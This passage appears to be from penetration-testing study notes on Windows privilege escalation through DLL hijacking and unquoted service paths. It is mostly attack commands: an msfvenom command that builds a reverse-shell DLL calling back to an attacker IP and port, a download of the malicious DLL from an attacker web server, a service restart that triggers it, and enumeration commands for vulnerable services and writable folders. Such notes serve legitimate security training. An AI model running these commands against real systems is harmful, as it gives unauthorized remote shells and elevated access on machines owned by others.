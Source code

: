 or

```
msfvenom -p windows/x64/shell_reverse_tcp LHOST=192.168.45.171 LPORT=4444 -f dll > EnterpriseServiceOptional.dll
```


Compile the DLL:

```
x86_64-w64-mingw32-gcc myDLL.cpp --shared -o myDLL.dll
```

Copy DLL over:

```
iwr -uri http://192.168.119.3/myDLL.dll -Outfile myDLL.dll
```

_Ensure the service can load the DLL from this directory

Restart service:

```
Restart-Service BetaService
```

### Unquoted Service Paths (Manual)

Use when permission to main or subdirectories of service, but not replace the main binary. And service is unquoted. 

How Windows parses services in directory order when unquoted:

```
C:\Program.exe
C:\Program Files\My.exe
C:\Program Files\My Program\My.exe
C:\Program Files\My Program\My service\service.exe
```

Get installed Windows Services:

```
Get-CimInstance -ClassName win32_service | Select Name,State,PathName 
```

Using CMD, find ones with no quotes:

```
wmic service get name,pathname |  findstr /i /v "C:\Windows\\" | findstr /i /v """
```

Check if we can Start or Stop service:

```
Start-Service GammaService
```

Check permission down chain of files and folders looking for Full or Write permissions:

```
icacls ""
```
